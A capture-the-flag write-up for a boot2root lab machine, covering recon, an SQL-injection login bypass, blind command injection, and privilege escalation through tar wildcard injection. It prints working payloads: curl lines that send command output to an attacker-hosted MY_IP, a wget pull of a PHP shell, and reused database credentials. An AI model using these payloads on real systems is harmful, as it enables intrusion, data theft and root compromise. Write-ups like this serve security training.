 ## BattleX CTF: machine2 
#### Category: Boot2Root
#### Score: 110
#### Number of Solves: 5 [First Blood 🩸] 
#### Machine name
### Description

> Ready to go

###  TL; DR

Exploit command injection to password reuse to wildcard injection on sudo tar to gain root access

### Recon

```
Starting Nmap 7.95 ( https://nmap.org ) at 2024-06-29 21:47 WAT
Nmap scan report for 10.10.27.9
Host is up (0.63s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Big Hacking Book Store

Service detection performed. Please report any incorrect results at https://nmap.org/submit/
Nmap done: 1 IP address (1 host up) scanned in 21.00 seconds
```

### Exploring

![Imgur](https://i.imgur.com/vxHYIir.png)

_front page_

Nothing much in the source code, just links to a login page and register page that didn't exist

![Imgur](https://i.imgur.com/7AYjkla.png)

_Login page_

Since there was no registration page and I didn't want to fuzz for files or directories, I tried a basic SQL injection to bypass the login page, and it worked.

```
Username: '--
Password: '
```
Login page bypassed and greeted by a ping system in /pingsystem.php .

![Imgur](https://i.imgur.com/lsA4hKP.png)

This will likely be vulnerable to command injection, I just have to find a way to trigger it. 

![Imgur](https://i.imgur.com/tz2d93t.png)

My form data was 

```
127.0.0.1; sleep 5
```

After several trials of techniques, I found the one that works. 

```
127.0.0.1 `sleep 5`
```

The result didn't show, but the delay was sure executed by the system and I concluded it was vulnerable to blind command injection.

### Exploiting 

I proceeded to host a http server to get a result from my blind command injection. That way, it will be easy for me to exploit the server.

With some Python scripting and tweaking, I got an insight of the directory structure, current user and id

```
127.0.0.1 `curl -X POST -H "Content-Type: text/plain" -d "$(ls -lah)"  http://MY_IP:8080/`
127.0.0.1 `curl -X POST -H "Content-Type: text/plain" -d "$(pwd)"  http://MY_IP:8080/`
127.0.0.1 `curl -X POST -H "Content-Type: text/plain" -d "$(whoami)"  http://MY_IP:8080/`
127.0.0.1 `curl -X POST -H "Content-Type: text/plain" -d "$(id)"  http://MY_IP:8080/`
127.0.0.1 `curl -X POST -H "Content-Type: text/plain" -d "$(wget -O images/exploit.php http://MY_IP:8090/ex.php)" http://MY_IP:8080/`
```

![own](https://i.imgur.com/bBqJg6t.png)

I let the server wget my php shell to the /images folder since I can write there (I tried with the current directory and it didn't work)

![Imgur](https://i.imgur.com/TIWTlQX.png)

With my netcat listening. I got shell

![Imgur](https://i.imgur.com/ZHlh9ck.png)

### Escalating privileges

```
www-data@BattleX:/var/www/html$ cat db.php
cat db.php
<?php
// db.php
error_reporting(E_ALL);
ini_set('display_errors', 1);

$servername = "localhost";
$username = "hacksparo";
$password = "hacksparoisthebest123";
$dbname = "books";

$conn = new mysqli($servername, $username, $password, $dbname);

if ($conn->connect_error) {
  die("Connection failed: " . $conn->connect_error);
}
?>
```

There's a credential in the db.php. It is totally possible for this credential to be used for an actual user in the system. 

```
www-data@BattleX:/var/www/html$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
[snip]
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
[snip]
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
hacksparo:x:1000:1000:,,,:/home/hacksparo:/bin/bash
mysql:x:111:115:MySQL Server,,,:/nonexistent:/bin/false
```
Sure, there's a user hacksparo in the system. I upgraded my shell to a python spawned one so I can try out the credentials.

![Imgur](https://i.imgur.com/1sGZp3s.png)

I am hacksparo, time to get flag. 

```
hacksparo@BattleX:~$ cat user.txt
cat user.txt
BattleX{a3d9b7d4d5d6d4c3b2a1e9f8d7c6b5a4}
```
User flag: `BattleX{a3d9b7d4d5d6d4c3b2a1e9f8d7c6b5a4}` 

### Getting root access

```
hacksparo@BattleX:~$ sudo -l
sudo -l
Matching Defaults entries for hacksparo on BattleX:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hacksparo may run the following commands on BattleX:
    (ALL) NOPASSWD: /bin/bash /opt/backup/backup.sh
```

With `sudo -l`, I can get if hacksparo can run sudo generally or only on one or two commands, sure enough, hacksparo can only run this specific command `sudo /bin/bash /opt/backup/backup.sh` on the machine. 

```
hacksparo@BattleX:~$ cat /opt/backup/backup.sh
#this is a test

sudo tar -cf backup.tar *
```
I can't alter the script to change its content but I can only run it. `tar` can be exploited to gain access. The exploit I will be applying is known as wildcard injection.

```bash
echo 'cp /bin/bash /home/hacksparo/bash; chmod +s /home/hacksparo/bash' > /home/hacksparo/shell.sh    
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```
Running that and `sudo /bin/bash /opt/backup/backup.sh` will copy bash from /bin/ directory to my current direcotry and set suid bit to it. 

```
hacksparo@BattleX:~$ echo 'cp /bin/bash /home/hacksparo/bash; chmod +s /home/hacksparo/bash' > /home/hacksparo/shell.sh
hacksparo@BattleX:~$ echo "" > "--checkpoint-action=exec=sh shell.sh"
hacksparo@BattleX:~$ echo "" > --checkpoint=1
hacksparo@BattleX:~$ ls
'--checkpoint=1'  '--checkpoint-action=exec=sh shell.sh'   shell.sh   user.txt
```

![Imgur](https://i.imgur.com/39rdvXd.png)

success, now I can run `./bash -p` and get root access

![Imgur](https://i.imgur.com/Ti6Q0M6.png)

```
bash-4.4# cd /root
bash-4.4# ls
root.txt
bash-4.4# cat root.txt
BattleX{2f9e8d7c6b5a4d3c2b1a0f9e8d7c6b5a}
```
Root flag: `BattleX{2f9e8d7c6b5a4d3c2b1a0f9e8d7c6b5a}`

![Not bad meme](https://media1.tenor.com/m/pK9Gkdmh-mAAAAAC/notbad-soccer.gif)
Not bad.
